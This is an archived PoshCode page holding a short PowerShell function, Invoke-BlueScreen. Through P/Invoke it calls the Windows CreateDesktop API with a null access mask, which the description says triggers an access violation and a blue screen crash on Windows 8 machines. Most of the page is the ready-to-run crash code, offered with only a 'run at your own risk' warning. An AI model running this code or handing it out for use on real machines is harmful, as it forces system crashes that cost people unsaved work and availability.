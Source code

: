 ```yaml
---
Author: adamdriscoll
Publisher: 
Copyright: 
Email: 
Version: 0.1
Encoding: ascii
License: cc0
PoshCode ID: 4216
Published Date: 2013-06-24t00
Archived Date: 2016-12-06t10
---
```


# invoke-bluescreen - 

## Description

causes a blue screen on windows 8 machines. run at your own risk!! the reason is due to an access violation caused by passing in a null value to the access mask of the createdesktop function.

## Comments



## Usage



## TODO



## function

`invoke-bluescreen`

## Code

`#
 #
 function Invoke-BlueScreen
 {
     Add-Type "
       using System;
       using System.Runtime.InteropServices;
       public class PInvoke
       {
           [DllImport(`"user32.dll`")]
           public static extern IntPtr CreateDesktop(string desktopName, IntPtr device, IntPtr deviceMode, int flags, long accessMask, IntPtr attributes);
       }
     "
 
     [PInvoke]::CreateDesktop("BSOD", [IntPtr]::Zero, [IntPtr]::Zero, 0, $null, [IntPtr]::Zero)
 }
`

